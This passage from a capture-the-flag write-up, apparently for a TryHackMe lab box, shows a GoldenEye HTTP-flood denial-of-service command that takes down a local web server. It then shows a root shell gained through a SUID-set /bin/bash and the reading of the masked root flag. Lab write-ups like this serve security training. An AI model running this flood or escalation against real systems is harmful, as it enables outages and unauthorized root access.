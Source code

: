 
### Denial of Service attack using goldeneye
I uploaded the Goldeneye repo to the box and used it from there to generate huge amount of traffic.
```console
moana@motunui:/dev/shm/GoldenEye$ ./goldeneye.py https://localhost:5000 -w 200 -s 1000

GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 200 workers running 1000 connections each. Hit CTRL+C to cancel.
```
And when I tried to browser the webserver, it was down.
![10](/assets/images/thm/motunui/10.png)

## Checking the permission of /bin/bash
```console
moana@motunui:/dev/shm/GoldenEye$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 /bin/bash
```
The SUID bit is set on the binary. COOL!!

### Getting a root shell
```console
moana@motunui:/dev/shm/GoldenEye$ /bin/bash -p
bash-4.4# id
uid=1000(moana) gid=1000(moana) euid=0(root) groups=1000(moana)
```

## Reading root flag
```console
bash-4.4# cat /root/root.txt
THM{h***T_r****d}
```
